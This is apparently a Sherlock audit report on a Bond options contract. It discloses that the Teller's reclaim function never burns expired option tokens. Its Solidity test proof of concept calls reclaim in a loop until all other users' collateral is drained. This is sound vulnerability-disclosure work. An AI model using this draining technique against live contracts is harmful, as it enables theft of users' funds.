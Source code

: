 Kow

high

# Unrestricted reclaim of payout/quote tokens allows user to steal all collateral from Teller

## Summary
Any receiver of an expired FixedStrikeOptionToken can call reclaim multiple times to steal all payout or quote token collateral held in Teller (other users' funds). 

## Vulnerability Detail
The [reclaim](https://github.com/sherlock-audit/2023-06-bond/blob/fce1809f83728561dc75078d41ead6d60e15d065/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395)  function allows the receiver of an expired FixedStrikeOptionToken to reclaim its remaining collateral. The [totalSupply of the option token](https://github.com/sherlock-audit/2023-06-bond/blob/fce1809f83728561dc75078d41ead6d60e15d065/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L429C9-L429C52) is the amount of remaining collateral to repay in payoutToken units. If the option is a call option, this amount of payoutToken is transferred to the receiver (the caller). Otherwise, for a put option, the equivalent amount in quoteToken is transferred to the receiver.
The issue is the reclaimed option tokens are not burned. Consequently, the receiver holds the same amount of option tokens after reclaiming, and can reclaim multiple times to steal all payout/quote token collateral (determined by the option config) held by the Teller contract.

## Impact
Loss of funds for users who have created options with the targeted payout/quote token as collateral, as well as protocol insolvency since affected option tokens are no longer collateralised.

## Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/fce1809f83728561dc75078d41ead6d60e15d065/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

## PoC
A possible attack path using a call option is detailed below. Assume the Teller currently holds 1000e18 Token A as collateral due to users creating option tokens, and the balance does not change apart from Alice's deposit.
- Alice deploys a call option token with herself as the receiver, the payoutToken as TokenA, the quote token as Token B, and the eligible and expiry times to just satisfy the minOptionDuration.
- She creates 100e18 of her option tokens, depositing 100e18 Token A so the Teller's  current Token A balance is 1100e18.
- When her option tokens expire, she calls reclaim 11 times. Each time, the Teller transfers 100e18 Token A to her address, stealing all Token A collateral.
- (This can be repeated for other tokens)

The test below demonstrates the ability to call reclaim multiple times and steal other's funds. It should be successful if added to the FixedStrikeOption tests.
```solidity
function testMultipleReclaim() public {
        // Deploy call option token
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            alice, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );
        FixedStrikeOptionToken bobOptionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            bob, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens by depositing collateral (payout tokens)
        uint256 amount = 100 * 10 ** abc.decimals();
        vm.prank(alice);
        teller.create(optionToken, amount);
        vm.prank(bob);
        teller.create(bobOptionToken, amount * 100);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);

        uint256 alicePayoutStart = abc.balanceOf(alice);
        uint256 tellerPayoutStart = abc.balanceOf(address(teller));

        // Multiple reclaims to drain collateral
        uint256 i;
        while (abc.balanceOf(address(teller)) >= amount) {
            vm.prank(alice);
            teller.reclaim(optionToken);
            ++i;
        }

        assertEq(abc.balanceOf(alice), alicePayoutStart + i * amount);
        assertEq(abc.balanceOf(address(teller)), tellerPayoutStart - i * amount);
        // Note: option tokens are not burned on a reclaim, they just remain in place since they are expired
}
```

## Tool used

Manual Review

## Recommendation

Burning the option tokens reclaimed seems like the easiest choice, though the test comments suggest leaving the tokens as expired is desired. In this case, it might be necessary to track user collateral in the Teller.
